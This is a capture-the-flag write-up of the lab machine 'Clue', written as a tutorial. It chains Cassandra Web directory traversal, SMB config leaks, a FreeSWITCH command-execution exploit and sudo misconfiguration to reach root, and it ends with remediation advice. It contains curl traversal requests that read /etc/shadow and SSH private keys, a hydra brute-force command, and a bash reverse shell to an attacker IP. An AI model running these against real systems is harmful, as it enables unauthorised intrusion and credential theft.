

## Machine Information

- **Machine Name:** Clue
- **Machine IP:** 192.168.195.240
- **Machine OS:** Linux
- **Machine Type:** Hard

---

## Reconnaissance - Information Gathering

Most people think hacking as clicking one single button and *bang* you got access. In reality, information gathering has more share in hacking then injecting SQL or buffer overflow RCE. So you should not hesitant in asking, *What is Information Gathering?* - In simple words, when you are really passionate about someone, you secretly start stacking them without interacting with them, we call this **passive reconnaissance** in the world of cybersecurity, we try to gather information about the target without interacting with it. Fortunately, you get the courage to talk to your favorite person, and you start talking to them to gather more information on them. We call this **active reconnaissance** because here we are interacting with the target. Simple? If still not simple then it seems you have not fallen in love my friend!

>*"A man who is in love with the machine, he can gather all information - including passwords"*
### Ports and Services Scan

The first and foremost step in reconnaissance is *port scanning*, and the reason why this is important is because we only know the *IP address* of the target and we need to find *open doors and windows* of this target from where we can find a gap to enter it. Trust me when I say, there is always a loophole. Here, ports are virtual doors which can be used to communicate with a particular service that the target is publicly providing.


**Commands:**
- `sudo nmap -sT -p0-65535 -T4 $IP -oG scan/nmapTCP.txt`
- `grep "Ports:" scan/nmapTCP.txt | sed -n "s/.*Ports: //p" | tr ', ' '\n' | grep "/open" | cut -d "/" -f1 | paste -sd,`
- `sudo nmap -sVC -p22,80,139,445,3000,8021 -O $IP -oN scan/nmapTCPFull.txt`

**Output:**

```
PORT     STATE SERVICE          VERSION  
22/tcp   open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
| ssh-hostkey:   
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)  
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)  
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)  
80/tcp   open  http             Apache httpd 2.4.38  
|_http-title: 403 Forbidden  
|_http-server-header: Apache/2.4.38 (Debian)  
139/tcp  open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp  open  netbios-ssn      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)  
3000/tcp open  http             Thin httpd  
|_http-title: Cassandra Web  
|_http-server-header: thin  
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: general purpose|router  
Running (JUST GUESSING): Linux 4.X|5.X|2.6.X|3.X (97%), MikroTik RouterOS 7.X (97%)  
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:6.0  
Aggressive OS guesses: Linux 4.15 - 5.19 (97%), Linux 5.0 - 5.14 (97%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (97%), Linux 2.6.32 - 3.13 (91%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 (91%), Linux 2.6.32 - 3.10 (91%), Linux 4.19 - 5.15 (91%)  
No exact OS matches for host (test conditions non-ideal).  
Service Info: Hosts: 127.0.0.1, CLUE; OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Host script results:  
|_clock-skew: mean: 1h20m01s, deviation: 2h18m36s, median: 0s  
| smb-security-mode:   
|   account_used: guest  
|   authentication_level: user  
|   challenge_response: supported  
|_  message_signing: disabled (dangerous, but default)  
| smb2-security-mode:   
|   3:1:1:   
|_    Message signing enabled but not required  
| smb2-time:   
|   date: 2025-08-27T16:17:24  
|_  start_date: N/A  
| smb-os-discovery:   
|   OS: Windows 6.1 (Samba 4.9.5-Debian)  
|   Computer name: clue  
|   NetBIOS computer name: CLUE\x00  
|   Domain name: pg  
|   FQDN: clue.pg  
|_  System time: 2025-08-27T12:17:25-04:00
```

Oh damn! There are a lot of open ports, and this is natural in an Active Directory Environment because they need a lot of open ports for their working. You might have a question that *How to identify if this is a Domain Controller?* - So for this machine, we can clearly say it is not a domain controller (DC), because there are few ports which DC use, one of them is port 88 (kerberos) and it is missing here. This doesn't mean this is not an AD environment machine, it can be AD machine under some other domain controller.

### HTTP (80) Enumeration

We will start enumeration from beginning, but wait... *Why we skipped port 22 (SSH)?* I would love if you all do your own research on this question, this will help your research skills. Now moving on port 80.

>*"Curiosity is a sign of passion, and that's why the only crime of hackers is curiosity. No other career holds this much passion, the infinite possibility of hacking something out of it's intended path"*


When I see a website, I always think of *Web Exploits* - such as *SQLi, XSS, sensitive directories, LFI, RFI, SSRF, CSRF, etc* and the list never ends. Websites are so much vulnerable that right now it is one of the easiest thing to hack (for me binary exploits are also easy, but I might get hated for that opinion so let's ignore that). As for now, we are seeing a **Forbidden 403** status on our target website, *What will you do here?* - *Oh! it is forbidden so we cannot access it, it might not be vulnerable*. No, just because this page is forbidden does not mean that the whole site will be forbidden. 

**Commands:**
- `gobuster dir -u "http://clue.offsec/" -w /usr/share/wordlists/dirb/common.txt -x php,txt,sh -o scan/gobuster80.txt`
- `nikto -h "http://clue.offsec/"`
- `feroxbuster -u "http://clue.offsec/" --depth 2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,sh -o scan/ferox80.txt`


One thing I do when I see a website is *Directory Brute Force* to find sub-directories which we can access. I also execute `nikto` on the target to find any outdated *request header* or existence of *wordpress*. Here it is evident that we found a `/backup` sub-directory for the target website and in `nikto` we found nothing interesting that can push us forward in exploitation phase.


I personally use the huge wordlists like - `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` with `feroxbuster` because this tool has ability to recursively use each word on every sub-directory previously found. You can do this with the option of `--depth 2` which makes sure that it checks for every word until it hits 2 sub-directories. Unfortunately, we found nothing new and the `/backup` directory was also not accessible. 

### HTTP (3000) Enumeration

Now what? - I told you guys that *Web exploitation* is easy and we cannot find a single loophole which we can use to enter the system, but this does not mean that we cannot exploit the web, there is always a way.

>*"If you cannot find vulnerability, then it is probably because you are looking too close at a wrong place, or too away from the right place"*

**Command:**
- `feroxbuster -u "http://clue.offsec:3000/" -w /usr/share/wordlists/dirb/common.txt -x php,txt,sh -o scan/ferox3000_1.txt`


In our `nmap` scan we also saw that there is another `HTTP` service on port 3000. I immediately did directory bruteforce before checking it out to see the structure of the website. My strategy is to look for extensions of *PHP, SH, TXT* in a linux machine so it is my first scan always. You will get to this extension thing with experience, so keep on solving machines and build your own strategy, something better than me. 

One thing to notice in directory brute force, that we can only see **/cgi-bin** and that is also recursive. Do you have any idea why this is happening? So, the reason is because the website is vulnerable to **Directory Traversal**. We will look into it in the next step. 

---
## Exploitation - Oops! I broke something

At this point, you might think that *Step 1: Reconnaissance* is over, but truth is that reconnaissance must be done in all steps, it is a recurring step. Now, we will slowly move towards exploitation phase. As I have already mentioned that the website on port 3000 is vulnerable to **Directory Traversal** and this is because of my many years of experience with red teaming. When I see a response, I can fit it in a certain type of loophole or normal behavior. If you think critically, then there is no possible way some website will have **/cgi-bin/cgi-bin/cgi-bin** as their directory structure.

#### Why recursive /cgi-bin is a sign of vulnerability?

Historically, `/cgi-bin` was a folder where websites placed executable scripts which were developed in Perl, Python, Bash, etc. The web server (Apache, Nginx, etc) was designed to run anything inside `/cgi-bin` instead of just serving it as a file. In some broken configurations, the web server is often configured to treat any path under `/cgi-bin` as valid, even if it doesn't exist on disk.

Example: if `/cgi-bin` is mapped to a script handler, `/cgi-bin/anything/anything/anything...` will still resolve to the same handler and give us a 200 response. If the file does not exist then you get just 200 code with no data, but if the file exist then the content are served (if it is a text file) or it is executed (if it is an executable). So if you try to resolve `/cgi-bin/../../../../../../../../../etc/passwd` then it will show you the content of `/etc/passwd` file on the system.

### Auto Exploitation - Cassandra Web 0.5.0

**Commands:**
- `searchsploit Cassandra Web`
- `searchsploit -m linux/webapps/49362.py`


If you visit the website, then it is serving **Cassandra Web** which itself is vulnerable to directory traversal. So, here you can use a script from `searchsploit` which performs "Remote File Read" using Directory Traversal, and if you want to know how this exploit works and how to manually perform it without a script then stay put, your buddy **zero** got you.

### Manual Exploitation - Pro Hackers Play

This is the path where you will actually understand the exploit and perform it, rather than just executing some github public exploits written for script-kiddies by script-kiddies. I do not disdain automation, but if you do not know how to manually do it then it is all useless. It is good to use tools for automation, because it will save you a lot of time, but when you are learning things, you should stay away from automation.

**Command:**
- `curl --path-as-is "http://clue.offsec:3000/../../../../../../../../../etc/passwd"`


Bingo! We were able to get the content of `/etc/passwd` file, and now we know that there are 2 non-root users, cassie and anthony. From here, we will narrow our search, either focus on cassie or anthony and try to find any sensitive file that can reveal something valuable about them.

### SMB Enumeration

I have previously mentioned that reconnaissance and enumeration are recursive steps, and this makes sense because I am doing enumeration in my exploitation phase. So after digging deep in both the HTTP ports, and finding a way to read files on the system, we will have to find more detail about the system to know where to look.

**Commands:**
- `crackmapexec smb clue.offsec`
- `crackmapexec smb clue.offsec -u '' -p ''`
- `crackmapexec smb clue.offsec -u '' -p '' --shares`


For SMB enumeration, I generally use `crackmapexec` but you can also use `nxc` which is very similar to `crackmapexec`. First command gave me information about the OS used by the system (not always accurate), second one I tried login with anonymous credentials and I was able to list the number of shares.

**Commands:**
- `smbclient -U '' -N //clue.offsec/backup`
	- `cd freeswitch/etc/freeswitch/autoload_configs/`
	- `get event_socket.conf.xml`


So I have researched on *Freeswitch* software and I found that there is a file named *event_socket.conf.xml* which stores the password for *Freeswitch* and we found it in the SMB share. I tried doing SSH and Freeswitch from it but it failed and then quickly I realised that it is the default credential, and this makes sense because the share was named "backup", so it means that the password was changed.

### Gimme the Initial Foothold

*What to do now? How we can find the current password?* - If you guessed it, then yes it is right, we can remotely read files through directory traversal. Let's jump back to our previous exploit.

**Commands:**
- `curl --path-as-is "http://clue.offsec:3000/../../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml"`
- `hydra -L users.txt -p 'StrongClueConEight021' clue.offsec ssh`



We were able to extract the current freeswitch password, but unfortunately it didn't worked on any user's SSH session. Trust me when I say, this rabbit holes or failures are 70% of red teaming, and if you get frustrated by them then try to not break your system. We will still keep this password in our notes, because it might be useful in future.

**Commands:**
- `searchsploit Freeswitch`
- `searchsploit -m windows/remote/47799.txt`
- `mv 47766.txt 47799.py`
- `python3 47799.py [ip] [command]`


Next step is we tried searching for available exploits on FreeSwitch, and google is our best friend to do that. Now most of the people feel where exactly to look for efficient exploits, I do not know any solid methodology, but my personal experience goes like this

First, I will look here > [ExploitDB](https://www.exploit-db.com/)
If I do not find my desired exploit, then I will go to > [Github](https://github.com/)
If I still do not find it there, then I just look around any other site.

Most of the time, I do not step in the third phase of find exploit outside exploit-db and github, but it is not that hard to find if you know two things: *Software Name and Software Build/Version*.


I modified the exploit, and changed the `PASSWORD` variable, to the new password that we recently found. I highly recommend to learn programming and go through this exploit line by line to understand what it does. If I walkthrough the exploit then it authenticates into freeswitch service, and if the authentication goes well then it tries to send the command that the user provides. Here, freeswitch is kind of telnet protocol, it accepts commands and execute them, but freeswitch uses API calls to do that.

### Reverse Shell - It is always about a shell;

 During every CTFs which are based on hacking a system and finding the flag, unlike those which are more based on mathematical problems, you will always see a need for reverse shells. You will never use a Denial-of-service (DoS), because we have huge heart for the developers of the CTF. We do not want the entire CTF go down, because it is a total stupid thing to do.
 
 *What is a reverse shell?* - Imagine your girlfriend is angry at you, and not talking with you. You try to talk her, but she is ghosting you. She is not a tech-savvy, so you go to her Mac and stick a USB to it which locks her keyboard. She tries to use her Mac, but she gets annoyed and at last she is forced to call you to fix it! That's reverse shell. You cannot get a direct connection to the target system because there can be firewall, and other security measures that you will stop you, but what if the target machine sends a connection to
 you? 

**Commands:**
- `python3 47799.py 192.168.195.240 id`
- `python3 47799.py 192.168.195.240 hostname`
 
 

**Commands:**
- `nc -lvnp 80`
- `python3 47799.py 192.168.195.240 "/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.246/80 0>&1'"`


Bingo! We got a user-level reverse shell. I also made the shell into a *pretty shell*, which is more convenient to use. It is not necessary, but if you won't do it then after few mins you will start hating revShells and maybe throw your system out of the **Windows**. Once you received a shell, you should start looking for user flag, or local flag. In our case, good news is that we need to pivot to user cassie for user flag, so we will have to gain another user-level shell. I love when it gets challenging :)

### Shell as Cassie: Cassie, did you got hacked? -- -

The first question we must answer here is... No, it is not who is Cassie, her name sounds like a girl but there are more things to care about right now. Question is, **How to hack her?**, and it might sound simple, but you need to map the entire system to see which gate can give you access to her system. If we try to map, there we do know there is a directory traversal vulnerability at port 3000. How about we do some recon there?

**Commands:**
- `curl --path-as-is "http://clue.offsec:3000/../../../../../../../../home/cassie/id_rsa`
- `curl --path-as-is "http://clue.offsec:3000/../../../../../../../../../proc/self/cmdline" --output output.txt`
- `cat output.txt`
- `ssh -i cassie_rsa cassie@192.168.195.240`


During our recon in reverse shell, we found that cassie has a `id_rsa` key, so it means if somehow we are able to read it then we can get access to her system. 


I was able to get `id_rsa` of cassie, but it was password protected, so I tried looking for any clue and we found credentials in `/proc/self/cmdline`, and using that credential I was unable to get a SSH shell to cassie. So, I just did `su - cassie` in the reverse shell we already have on the system and we were able to get access using the credentials we just found.

Fortunately, we were not able to find user flag. I did ask for challenge, and this is what I meant, now I am loving this machine more than any other 150+ machines that I did. Either this is really this, or I am just being a dumb script kiddie hacker like always :)

---
## Privilege Escalation - I am gROOT!

We have 2 connections in the system, we still do not have user flag and anthony's shell. As far as my understanding goes, after getting Anthony we will easily get root level access, but I can be wrong. 
### Shell as Anthony: Anthony do you know, Cassie was useless

If we get stuck at a point, even in life, the best thing to do is take a step back and re-trace your roadmap, are you walking on the right path? What next step should you take to reach your goal? Is it feasible? Is it possible? Is it even there or are we being delusional? For us, here we need user flag, so it is simple, we need to *Hack anthony* because he is the only user left. 

**Commands (revShell):**
- `sudo -l`
- `sudo -u root /usr/local/bin/cassandra-web -B 0.0.0.0:9999 -u cassie -p SecondBiteTheApple330 &`
- `curl --path-as-is "http://localhost:9999/../../../../../../../../../etc/shadow`


*How the Vulnerability Appears?* - So, we found a SUDO binary named cassandra-web, and if someone runs `cassandra-web` using `sudo`, the entire web app is now executing with root privileges. This introduces a *privilege escalation vulnerability* because:

- Any functionality that allows file access (`read`,`import`,`config`, etc) is not operating as root.
- If the web interface allows users to specify arbitrary file paths, then those requests will be executed with root-level permissions.

Due to this, we were able to read `/etc/shadow` which we are normally not allowed to read as a non-privileged user.

### Shell as root: Knock Knock

We can read files, we can also read the root flag if we know it location, but I will still try to get a root-level shell or anthony's shell. We will first try getting Anthony user and if we fail we will move-on to the root user. 

>*"If you gonna hack a system, go for the root"*

**Commands:**
- `sudo --path-as-is "http://localhost:9999/../../../../../../../../../home/anthony/.ssh/id_rsa"`
- `ssh -i anthony_rsa anthony@clue.offsec`
- `diff cassie_rsa anthony_rsa`
- `ssh -i cassie_rsa root@clue.offsec`


At this point, I had almost broken my system's screen because I was triggered. We did got `id_rsa` key of anthony user, but it didn't worked and I suspected that maybe both keys are same, the one we found previously and this one. After this, I tried a lot of things which took hours to see how to get root level access, and I was done with it. Then suddenly, my skid brain said *"Try the private key on root user"* and I tried Cassie's id_rsa key on root and it worked.

So did we just performed all this including the privilege escalation of file read for nothing? Well, I am sorry to say but yes, we could have just rooted the machine the moment we received the private key from *FreeSwitch* exploit.

---
## Conclusion: Final thoughts

This machine highlights how **misconfigurations and weak security practices** often create more risk than complex vulnerabilities. A directory traversal on its own might only expose limited files, but when paired with poor privilege boundaries and weak credential management, it escalate into full system compromise. The lesson here is simple: *least privilege, secure configurations, and regular patching* are your best defenses against attackers chaining small flaws into root-level compromise.

### Vulnerabilities: What we exploited?

The main vulnerabilities exploited in this machine were:
- **Directory Traversal** in Cassandra Web (`../../../../`) which allowed arbitrary file read on the system.
- **Insecure Service Credentials** in FreeSWITCH, where sensitive configuration files stored hardcoded or guessable passwords.
- **Privilege Escalation via Sudo Misconfiguration**, where `cassandra-web` could be executed as `root` through `sudo`, giving the attacker unrestricted file read capabilities such as accessing `/etc/shadow` or private SSH keys.

### Exploits: How we did it?

1. **Reconnaissance**: Using `nmap`, `gobuster`, and `feroxbuster`, we discovered exposed services and hidden directories.
2. **Cassandra Web Exploit**: Through manual testing and `searchsploit`, we confirmed a directory traversal that allowed reading sensitive files such as `/etc/passwd` and `/home/*/id_rsa`.
3. **SMB Enumeration**: Leveraged anonymous access to retrieve FreeSWITCH configuration backups, initially exposing default credentials.
4. **FreeSWITCH Exploit:** Modified a known exploit to authenticate using the real configuration password, achieving remote command execution and a reverse shell.
5. **Privilege Escalation:** Enumerated `sudo` privileges and found `cassandra-web` executable as root, which enabled reading restricted files like `/etc/shadow` and SSH private keys, eventually pivoting to `root`.

### Patches: How to Fix It?
- **Patch and Update Services**: Run the latest versions of `cassandra-web` and `FreeSWITCH` to avoid known exploits.
- **Limit Service Permissions**: Never run web apps like `cassandra-web` with `sudo` or as `root`. Use systemd with restricted service accounts.
- **Harden Configurations**: Remove hardcoded/default credentials from configuration files and enforce strong passwords.
- **Restrict File Access**: Use AppArmor/SELinux or containerization to sandbox services, ensuring they cannot read arbitrary files.
- **Audit Sudo Rules**: Review `/etc/sudoers` regularly to ensure no unnecessary binaries are executable as root.


